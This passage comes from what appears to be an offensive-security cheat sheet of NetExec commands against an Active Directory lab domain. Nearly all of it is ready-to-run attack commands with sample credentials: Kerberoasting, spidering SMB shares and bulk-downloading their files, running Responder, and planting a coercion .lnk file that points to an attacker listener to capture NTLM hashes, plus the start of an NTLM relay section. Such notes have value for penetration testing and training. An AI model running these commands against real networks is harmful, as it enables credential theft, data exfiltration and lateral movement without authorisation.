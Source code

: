 ```powershell
nxc ldap dc01.zencorp.local -u john -p 'pass123' --kerberoasting kerberoasting.out
```

### <mark style="color:yellow;">Spidering and information finding</mark>

```powershell
# Enum shares
nxc smb 10.129.203.121 -u john -p pass123 --shares

# Spider search for txt in filename
nxc smb 10.129.203.121 -u john -p pass123 --spider BACKUP --pattern txt

# Show current files/dirs
nxc smb 10.129.203.121 -u john -p pass123 --spider BACKUP --regex .

# Search for file content
nxc smb 10.129.203.121 -u john -p pass123 --spider BACKUP --content --regex Encrypt

# Download a file
nxc smb 10.129.203.121 -u john -p pass123 --share --get-file pwn.txt pwn.txt

# Download a file
nxc smb 10.129.203.121 -u john -p pass123 --share -put-file /etc/test test
```

#### Spider plus module

```powershell
# List all files
nxc smb 10.129.203.121 -u john -p pass123 -M spider_plus -o EXCLUDE_DIR=IPC$,print$,NETLOGON,SYSVOL

# Download all files
nxc smb 10.10.221.197 -u svc-web-accounting-d -p 'H3r0n2024#!' -M spider_plus -o EXCLUDE_DIR=IPC$,print$,NETLOGON,SYSVOL DOWNLOAD_FLAG=Tru
```

### <mark style="color:yellow;">Get hash with responder</mark>

```powershell
# Start Responder
sudo responder -I tun0

# Upload lnk file
nxc smb 172.16.1.10 -u john -p pass123 -M slinky -o SERVER=10.129.153.230 NAME=important
```

### <mark style="color:yellow;">NTLM Relay</mark>

For relay SMB Signing is essential, computers with signing enabled we can't relay to. Get list of systems with SMB Signing with `--gen-relay-list`.
